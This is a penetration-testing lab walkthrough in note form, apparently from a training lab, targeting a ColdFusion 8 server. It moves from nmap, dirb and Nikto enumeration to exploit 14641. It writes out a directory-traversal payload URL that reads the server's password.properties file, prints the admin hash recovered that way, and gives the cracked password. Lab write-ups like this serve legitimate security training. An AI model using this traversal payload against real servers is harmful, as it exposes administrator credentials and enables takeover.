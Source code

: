 Enumeration

Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.10
![b92e64a728aa058c4b5febbe5a0e419f.png](../../_resources/3fc3d4e1e6c14707860014985312cf6c.png)


# dirb
Non-recursive scan
### dirb http://10.11.1.10 -r
![98dda4b9588d5a0540d259886ea6d092.png](../../_resources/0aa9bda96ea74282a6d6e1c835be0437.png)

Recursive scan on the ColdFusion administrator link
### dirb http://10.11.1.10/CFIDE/administrator/
![5ddc04f72da2ffefece02756d716c513.png](../../_resources/174dc093aa6548fcb725b0a3854b76dc.png)


# Nikto
![eefe619c3d685418d98d47267130281c.png](../../_resources/e366bbd24d614977950cdb209ca3efb6.png)

# Searchsploit
Search for ColdFusion
![2e67ff55f9c36f2d567b76298dfaf193.png](../../_resources/0d9450d4cac0424f89c53547e59f07b4.png)

## Directory Traversal, exploit 14641
After examining the Directory Traversal exploit 14641 (-x switch), download it.
![3e57c568b5e3f1bd024c86bc67f0becb.png](../../_resources/59dad30f089a4c7193eef53a2d6610d7.png)

This is the exploit code for 14641
[14641.py](../../_resources/411c5cb7d09b473a9f8c5977f1552776.py)

The usage for 14641.py
![bc6ddb1276e12e02a04cf96b91e132c3.png](../../_resources/cd01eb8a9c07496091bccb7c1424117a.png)

Within the exploit,a string a working string is specified
### http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![b2a8db76f9a75cd8989dfc9c467b1455.png](../../_resources/7d87a6751b1a43b4a68a442c2e67615b.png)

Run exploit on the CLI. Ensure to use the target IP
### python 14641.py 10.11.1.10 80 ../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![d69d92157b69f1e4e7eda0c33ca7593d.png](../../_resources/d44c5551aae94cb7bbed9c3366ce22c1.png)

Run the exploit on the browser as well
### http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![cf8_passwd.png](../../_resources/fce1ee7db2b341b7a3b9d4dd8ce48813.png)

The Administrator hash is found: 
### AAFDC23870ECBCD3D557B6423A8982134E17927E

# Crackstation

Crack the ColdFusion 8 'admin' password hash. Password is: pass123
![53f0079156bedae8e1bdb0175a5c8c3e.png](../../_resources/b0078eca3c04478caaa5bd23e33a6d7b.png)



# Other Tools
